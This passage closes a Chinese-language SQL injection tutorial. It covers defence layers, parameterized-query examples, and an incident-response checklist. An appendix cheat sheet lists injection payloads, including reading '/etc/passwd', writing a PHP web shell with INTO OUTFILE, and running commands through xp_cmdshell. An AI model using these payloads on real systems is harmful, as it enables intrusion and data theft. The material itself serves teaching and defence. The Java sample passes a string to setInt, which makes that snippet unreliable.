- **持续监控**：审计数据库操作日志，及时发现异常注入行为。

### 8.2 防御技术矩阵

| 防护层次 | 技术方案                                | 有效性 |
| -------- | --------------------------------------- | ------ |
| 输入层   | 参数化查询                              | ★★★★★  |
|          | 白名单过滤                              | ★★★★☆  |
| 应用层   | ORM框架（Hibernate/MyBatis）            | ★★★★☆  |
|          | 存储过程（需规范编写）                  | ★★★☆☆  |
| 数据库层 | 最小权限原则（禁止`FILE`、`SUPER`权限） | ★★★★★  |
|          | 敏感操作审计日志                        | ★★★★☆  |
| 网络层   | WAF（Web应用防火墙）                    | ★★★☆☆  |
|          | 数据库防火墙（如深信服、安恒）          | ★★★★☆  |

### 8.3 参数化查询实现示例
参数化查询将SQL模板与参数分离，彻底避免注入风险，各语言实现示例：

- **Java PreparedStatement**：
```java
String sql = "SELECT * FROM users WHERE id = ?";  // SQL模板
PreparedStatement stmt = conn.prepareStatement(sql);
stmt.setInt(1, request.getParameter("id"));  // 绑定参数
ResultSet rs = stmt.executeQuery();
```

- **Python SQLAlchemy**：
```python
from sqlalchemy import text

# 使用命名参数绑定
result = db.session.execute(
    text("SELECT * FROM users WHERE id=:id"),
    {"id": request.args.get('id')}
)
```

- **PHP PDO**：
```php
$stmt = $pdo->prepare('SELECT * FROM users WHERE id = :id');
$stmt->execute(['id' => $_GET['id']]);  // 传递参数数组
```

### 8.4 应急响应流程
当发现SQL注入攻击时，需按以下流程快速处置：
1. **立即止损**：暂停受影响的应用服务，避免攻击持续扩大。
2. **数据备份**：完整备份当前数据库状态，保留攻击证据。
3. **漏洞定位**：审计应用日志和数据库日志，确定注入点和攻击路径。
4. **漏洞修补**：采用参数化查询修复注入点，验证修复效果。
5. **影响评估**：检查数据泄露情况（如用户密码、敏感信息），评估损失。
6. **安全加固**：启用数据库审计、限制数据库权限、升级WAF规则。

> **法律声明**：本文所有技术内容仅供授权测试使用，任何未经授权的攻击行为均属违法！

## 附录：SQL注入速查手册

| 命令                 | 作用                         | 示例                                                  |
| -------------------- | ---------------------------- | ----------------------------------------------------- |
| `@@version`          | 数据库版本                   | `UNION SELECT @@version,2`                            |
| `database()`         | 当前数据库名                 | `UNION SELECT database(),2`                           |
| `schema()`           | 等效database()（部分数据库） | `UNION SELECT schema(),2`                             |
| `load_file()`        | 读系统文件（MySQL）          | `UNION SELECT load_file('/etc/passwd'),2`             |
| `into outfile`       | 写文件（MySQL）              | `UNION SELECT "<?php...",2 INTO OUTFILE '/shell.php'` |
| `information_schema` | 元数据查询（MySQL）          | `SELECT table_name FROM information_schema.tables`    |
| `xp_cmdshell`        | SQL Server命令执行           | `EXEC xp_cmdshell 'dir'`                              |
| `pg_ls_dir`          | PostgreSQL目录遍历           | `SELECT pg_ls_dir('./')`                              |

**实战靶场推荐**：DVWA（ Damn Vulnerable Web Application）、SQLi-Labs、WebGoat，可在本地搭建练习各类注入技术。 

- [联合查询注入全流程](https://blog.csdn.net/mulincong/article/details/130946033)  
- [sqlmap 工业级渗透](https://blog.csdn.net/syg6921008/article/details/147056616)  
- [WAF 绕过白皮书](https://www.imahui.com/network/27455.html)  
- [企业防护方案](https://www.ziyun.com/info/53665965.html)  
- [MySQL 官方手册](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html)  
- [OWASP 原理](https://owasp.org/www-community/attacks/SQL_Injection)  
- [sqlmap 官方仓库](https://github.com/sqlmapproject/sqlmap)  
- [SQLi-Labs 靶场](https://github.com/Audi-1/sqli-labs)
- [SQL注入详解](https://blog.csdn.net/qq_44159028/article/details/114325805?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522b82b163a142378ffc0d288044c3e8f81%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=b82b163a142378ffc0d288044c3e8f81&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-114325805-null-null.142%5Ev100%5Epc_search_result_base8&utm_term=SQL%E6%B3%A8%E5%85%A5&spm=1018.2226.3001.4187)

---
